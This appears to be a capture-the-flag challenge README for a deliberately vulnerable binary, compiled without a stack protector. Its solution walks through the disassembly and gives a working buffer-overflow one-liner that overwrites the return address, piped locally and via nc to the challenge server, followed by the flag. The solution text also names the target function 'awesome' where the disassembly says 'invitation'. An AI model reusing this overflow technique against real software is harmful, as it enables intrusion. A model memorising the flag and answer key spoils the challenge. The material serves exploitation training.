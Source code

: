 # Party Invitation

## Question Text
There's an awesome party that's going to go down next week. Gotta get the invitation!

*Created - Noans*

## Setup Guide
1. Copy all files from the service folder into the server.
2. Run the `init.sh` script.

Notes: 
- If the docker image file needs to be regenerated, run the `build.sh` script in the generate/build folder to generate a new image (zipped).
- Move the new image file into server / service folder.

## Distribution
- AwesomeParty 
	- SHA1: `a31ecb2e11a5b6762f78244f5103b424b0080b72`
	- Compiled from `distrib.c` in generate folder using `cc distrib.c -fno-stack-protector -Wl,--section-start=.special=0x1a1b1c1d -o AwesomeParty`

## Solution
1. You would need to do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
00000000004005c6 <check>:
  4005c6:	55                   	push   %rbp
  4005c7:	48 89 e5             	mov    %rsp,%rbp
  4005ca:	48 83 ec 20          	sub    $0x20,%rsp
  4005ce:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  4005d2:	48 89 c6             	mov    %rax,%rsi
  4005d5:	bf 0c 07 40 00       	mov    $0x40070c,%edi
  4005da:	b8 00 00 00 00       	mov    $0x0,%eax
  4005df:	e8 cc fe ff ff       	callq  4004b0 <__isoc99_scanf@plt>
  4005e4:	bf 0f 07 40 00       	mov    $0x40070f,%edi
  4005e9:	e8 a2 fe ff ff       	callq  400490 <puts@plt>
  4005ee:	90                   	nop
  4005ef:	c9                   	leaveq 
  4005f0:	c3                   	retq
```
```
Disassembly of section .special:

000000001a1b1c1d <invitation>:
    1a1b1c1d:	55                   	push   %rbp
    1a1b1c1e:	48 89 e5             	mov    %rsp,%rbp
    1a1b1c21:	bf 98 06 40 00       	mov    $0x400698,%edi
    1a1b1c26:	e8 65 e8 24 e6       	callq  400490 <puts@plt>
    1a1b1c2b:	bf c0 06 40 00       	mov    $0x4006c0,%edi
    1a1b1c30:	e8 5b e8 24 e6       	callq  400490 <puts@plt>
    1a1b1c35:	90                   	nop
    1a1b1c36:	5d                   	pop    %rbp
    1a1b1c37:	c3                   	retq  
```
3. The third line of the disassembly of the check function tells us 32 bytes is reserved for a variable.
4. You would also need to understand that the next 8 bytes is the `%rbp` of the check function.
5. Therefore, realize that one needs to write 40 bytes of garbage first to be able to overwrite the return address of the check function.
6. Also derive address of `awesome` function is `1a1b1c1d`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\x1d\x1c\x1b\x1a"' | nc pwn.chal.gryphonctf.com 18153`

### Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64